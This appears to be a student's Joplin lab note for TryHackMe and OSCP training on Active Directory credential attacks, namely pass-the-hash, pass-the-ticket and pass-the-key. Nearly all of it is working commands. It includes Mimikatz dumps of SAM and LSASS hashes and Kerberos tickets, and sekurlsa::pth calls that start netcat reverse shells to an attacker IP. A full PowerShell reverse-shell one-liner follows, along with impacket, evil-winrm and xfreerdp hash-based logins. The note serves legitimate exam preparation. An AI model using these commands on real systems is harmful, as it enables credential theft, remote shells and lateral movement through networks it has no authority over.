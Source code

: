 3. Alternative Authentication method (AD)

**Mimikatz** is used in the TryHackMe scenario. Can use other similar methods, but all commands are related to usage with Mimikatz.

# NTLM

![4b00bde9c6c86a98763dede7d352adfd.png](:/fb74ab0c87674832a7ac33569452d0d4)

# Pass-the-hash

Server might have cached cleartext NTLM password hashes, or else non-cracked NTLM password hashes

## Obtain local user NTLM Hashes

> privilege::debug
> 
> token::elevate
> 
> lsadump::sam

## Obtain hashes from LSASS memory

After getting the necessary privileges (2 commands)

> sekurlsa::msv # according to TryHackMe
> 
> sekurlsa::logonpasswords #according to PWK

## Use hash to perform PtH attack

> token::revert
> 
> `sekurlsa::pth /user:t1_toby.beck1 /domain:za.tryhackme.com /ntlm:533f1bd576caa912bdb9da284bbc60fe /run:"c:\\tools\\nc64.exe -e cmd.exe 10.50.61.104 1111"`

![e5f1bb9f0fbfd1448a04713bb1e46e30.png](:/e4103fd2779647deb99e43f6811222b0)

We can open a reverse shell before actually calling the PtH command

Interestingly, if you run the whoami command on this shell, it will still show you the original user you were using before doing PtH, but any command run from here will actually use the credentials we injected using PtH.

**Run winrs and connect to our target machine**

> **`winrs.exe -r:THMIIS.za.tryhackme.com cmd`**

## Other Ways to Pass-the-Hash (in Kali Linux if you have access to the machine)

### RDP

`xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH`

### PsExec (Python, impacket script)

`psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP`

impacket-psexec oscp.exam/ketty.agan:ESMWaterP1p3S\\!@ms01.oscp.exam

### WinRM (Evil-winrm)

`evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH`

# Kerberos Auth (Pass-the-ticket)

krbtgt

![d200068da85ba3b43481d4a65fac6954.png](:/1857cc52ba2a42b58efd49fe27d1bae4)

![ac34f8b460f188e227a950343065f62b.png](:/06739fcd490d47098409a4b737f279cf)

![08f7b99a327d97a11aaca24fdfea9f18.png](:/a96459342e624cc9931f27cceb33dae3)

# Pass-The-Ticket

> privilege::debug
> 
> sekurlsa::tickets /export
> 
> kerberos::ptt &lt;Ticket&gt;

To check if the tickets were correctly injected, use **klist**

![154c29daef5aa89ff7c52dcfd09fede6.png](:/53adc8334b9745afa8a708c98ca083e3)

# Overpass-the-hash / Pass-the-Key

Similar to PtH but in the context of Kerberos

When a user requests a TGT, they send a timestamp encrypted with an encryption key derived from their password.

- If we have the key, we can ask the KDC for TGT without requiring the actual password (therefore, PtK)

### Obtain Encryption Keys

> privilege::debug
> 
> sekurlsa::ekeys

Then the steps next is similar to PtH

## Pass-the-Key based on encryption

### RC4

`sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556`

### AES128

`sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"`

### AES256

`sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"`

### Powershell command

`sekurlsa::pth /user:t1_toby.beck /domain:za.tryhackme.com /rc4:533f1bd576caa912bdb9da284bbc60fe /run:"powershell -nop -c \"$client = New-Object System.Net.Sockets.TCPClient('10.50.61.104',1111);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\""`

Remember to run a reverse shell to obtain the shell on Kali; Have to modify the command parameter to be able to get the reverse shell execution

After getting the shell, we have to run the winrs.exe command to enter THMIIS

> winrs.exe -r:THMIIS.za.tryhackme.com cmd

id: 7a17f0881b6947d484027650987381ef
parent_id: 0c2846bd3b824b53bfc522d03d0bb20b
created_time: 2022-07-12T14:40:59.278Z
updated_time: 2022-07-19T10:28:50.741Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 1657636859278
user_created_time: 2022-07-12T14:40:59.278Z
user_updated_time: 2022-07-19T10:28:50.741Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1